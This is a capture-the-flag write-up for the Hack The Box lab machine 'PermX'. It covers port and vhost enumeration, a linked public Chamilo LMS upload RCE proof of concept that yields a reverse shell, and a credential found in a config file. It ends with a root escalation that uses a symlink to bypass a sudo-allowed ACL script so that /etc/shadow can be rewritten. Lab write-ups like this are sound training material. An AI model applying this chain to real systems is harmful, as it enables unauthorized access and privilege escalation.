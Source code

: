 # PermX CTF

## Initial foothold :

### Nmap discovery :

```bash
Nmap discovery :
┌──(david㉿kali)-[~]
└─$ sudo nmap -p- -sV -sC 10.129.219.20
[sudo] password for david: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-08 15:02 CEST
Nmap scan report for 10.129.219.20
Host is up (0.012s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.83 seconds
```
We add http://permx.htb to our hosts file 

### Vhost scan with gobuster :

Since there is a redirection for each domain with status 302 I decided to put the output in a file then with a grep command get rid of the junk :

```bash
┌──(david㉿kali)-[/mnt/kali-extended/hackthebox]
└─$ gobuster vhost -u http://permx.htb/ -w /usr/share/wordlists/dns/bitquark-subdomains-top100000.txt  --append-domain > out.txt

┌──(david㉿kali)-[/mnt/kali-extended/hackthebox]
└─$ grep -v "Status: 302" out.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://permx.htb/
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/dns/bitquark-subdomains-top100000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: lms.permx.htb Status: 200 [Size: 19347]
Found: *.permx.htb Status: 400 [Size: 301]
```
We found a subdomain we add it to our hosts file 

### Directory scan on http://lms.permx.htb/ with gobuster :

```bash
┌──(david㉿kali)-[/mnt/kali-extended/hackthebox]
└─$ gobuster dir -u http://lms.permx.htb/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x txt,html,php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://lms.permx.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/terms.php            (Status: 200) [Size: 16127]
/web                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/web/]
/index.php            (Status: 200) [Size: 19356]
/bin                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/bin/]
/main                 (Status: 301) [Size: 313] [--> http://lms.permx.htb/main/]
/robots.txt           (Status: 200) [Size: 748]
/documentation        (Status: 301) [Size: 322] [--> http://lms.permx.htb/documentation/]
/src                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/src/]
/user.php             (Status: 302) [Size: 0] [--> whoisonline.php]
/license.txt          (Status: 200) [Size: 1614]
/app                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/app/]
/vendor               (Status: 301) [Size: 315] [--> http://lms.permx.htb/vendor/]
/certificates         (Status: 301) [Size: 321] [--> http://lms.permx.htb/certificates/]
/custompages          (Status: 301) [Size: 320] [--> http://lms.permx.htb/custompages/]
/web                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/web/]
Progress: 566832 / 566836 (100.00%)
===============================================================
Finished
===============================================================
```
On the formular I decided to use the default credentials to try :
admin:DigitalOcean7
But wihtout result.

So i search for cve and found this POC : https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc?tab=readme-ov-file
It works great after following the procedure we have a reverse shell

## Privilege escalation from www-data to mtz :

I run a simple python server on my local machine 
And retrieve a linpeas executable with wget on the remote machine

After running linpeas I found a password on a php configuration file :
![password](https://image.noelshack.com/fichiers/2024/28/1/1720456843-screenshot-from-2024-07-08-16-19-59.png)

Don't be confuse by the bcrypt in the log file the password is not encrypted

So we have the following credentials mtz:03F6lY3uXAP2bkW8

Congrats we can cat the user file in the home directory

## Privelege escalation from mtz to root :

I run sudo -l :

```bash
mtz@permx:~$ sudo -l
sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```
Good we can run alc.sh as root user, we check the file :

```bash
mtz@permx:~$ cat /opt/acl.sh	
cat /opt/acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```
We can see that there is a flaw here, the check "$target" != /home/mtz/* || "$target" == *..* can be bypassed by using a symlink. For example, creating a symlink to the root folder

```bash
ln -s / root_symlink
```
And executing the script like this :
```bash
sudo /opt/acl.sh mtz rwx /home/mtz/root_symlink/etc/shadow
```
Will allow us to see the content of /etc/shadow and modify it !

In our local machine we type the following command and type test when it asked for a password :

```bash
┌──(david㉿kali)-[~]
└─$ mkpasswd --method=yescrypt
Password: 
$y$j9T$eMM9aLbHznCE2omQKTwRG1$rM3Umy9s5ucyGAI6MSd9JxPgy7Fli8Gbf9UdgpB6Ze4
```
We add the hash to the /etc/shadow file and we su as root with the new password and you can cat the root.txt file 
